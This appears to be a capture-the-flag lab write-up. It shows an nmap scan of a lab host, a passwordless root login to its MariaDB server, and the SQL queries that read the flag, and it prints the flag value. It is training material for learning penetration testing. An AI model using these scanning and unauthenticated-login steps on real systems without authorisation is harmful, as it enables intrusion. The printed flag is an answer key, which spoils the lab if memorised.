 target IP :: 10.129.183.175

let enumarate with nmap 
		sudo nmap -sCV -T5 10.129.183.175 -oN sql.txt
		Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-23 15:00 EDT
		Stats: 0:02:42 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
		Service scan Timing: About 100.00% done; ETC: 15:03 (0:00:00 remaining)
		Stats: 0:02:47 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
		NSE Timing: About 97.93% done; ETC: 15:03 (0:00:00 remaining)
		Stats: 0:02:54 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
		NSE Timing: About 97.93% done; ETC: 15:03 (0:00:00 remaining)
		Nmap scan report for 10.129.183.175
		Host is up (0.30s latency).
		Not shown: 999 closed tcp ports (reset)
		PORT     STATE SERVICE VERSION
		3306/tcp open  mysql?
		| mysql-info: 
		|   Protocol: 10
		|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
		|   Thread ID: 64
		|   Capabilities flags: 63486
		|   Some Capabilities: ODBCClient, SupportsCompression, Speaks41ProtocolOld, SupportsLoadDataLocal, FoundRows, SupportsTransactions, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolNew, Support41Auth, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
		|   Status: Autocommit
		|   Salt: 4Pv"Do$`9=efP=}$4x"=
		|_  Auth Plugin Name: mysql_native_password
		|_ssl-cert: ERROR: Script execution failed (use -d to debug)
		|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
		|_sslv2: ERROR: Script execution failed (use -d to debug)
		|_tls-alpn: ERROR: Script execution failed (use -d to debug)
		|_ssl-date: ERROR: Script execution failed (use -d to debug)

		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 198.85 seconds

here we can see there is only oen port is open, which is SQL

let run SQL command to get flag

		mysql -h 10.129.183.175 -u root           

			we can login without password 

		let find what we have in the database
				MariaDB [(none)]> show databases;
				+--------------------+
				| Database           |
				+--------------------+
				| htb                |
				| information_schema |
				| mysql              |
				| performance_schema |
				+--------------------+

 		list of databse
 		use HTB

 		MariaDB [htb]> show tables;
			+---------------+
			| Tables_in_htb |
			+---------------+
			| config        |
			| users         |
			+---------------+

		MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+



flag :: 7b4bec00d1a39e3dd4e021ec3d915da8
